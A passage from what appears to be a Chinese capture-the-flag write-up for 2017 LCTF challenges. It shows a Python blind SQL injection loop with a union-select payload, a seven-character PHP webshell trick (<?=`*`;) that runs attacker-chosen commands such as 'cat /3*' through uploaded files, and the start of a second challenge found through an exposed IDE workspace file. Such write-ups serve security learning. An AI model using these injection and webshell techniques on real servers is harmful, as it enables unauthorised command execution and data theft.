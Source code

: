 ```python
		data={"pro_id":"3 union select 1,'test',4,'{}' from product_2017ctf order by 4".format(payload)}
		r1=r.post(url,data=data)
		if 'nextentrance' in r1.text:
			sec+=k
			print payload
			break
		k=l[j]
		if j==len(l)-1:
			sec+=k
```
得到的内容和字段名拼接得到`d067a0fa9dc61a6e7195ca99696b5a896.php`

## 0x01七个字符getshell
d067a0fa9dc61a6e7195ca99696b5a896.php是个类似上传的页面，可以在服务器的一个专属文件夹生成指定文件名和内容的文件，一开始以为可以通过`content[]`绕过长度限制，无果，然后google到了原题
http://c.colabug.com/article-2421-1.html
传三个文件
```
文件名    内容
bash      随意
bb        7个字符内的命令
z.php     <?=`*`;
```
`z.php`中的``<?=`*`;``刚好7个字符，访问后能把当前目录下的所有文件按字母顺序列出，然后执行。
传好上面3个文件后，当前文件夹就有4个文件了，按字母排序如下
```
bash bb index.html(题目自带) z.php
```
访问z.php后，相当于执行了`bash bb index.php z.php`
所以我们只需要通过修改bb来执行7个字符以内的命令
bb的内容分别为`ls /`和`cat /3*`
![](/img/2017lctf1.png) 


# 萌萌哒报名系统
天依花了一整天的时间用IDE开发了一个报名系统，现在她睡着了，难道你们不想做点什么嘛XD?
http://123.206.120.239/

## 0x00下载源码
提示了IDE开发  
扫到了`http://123.206.120.239/.idea/workspace.xml`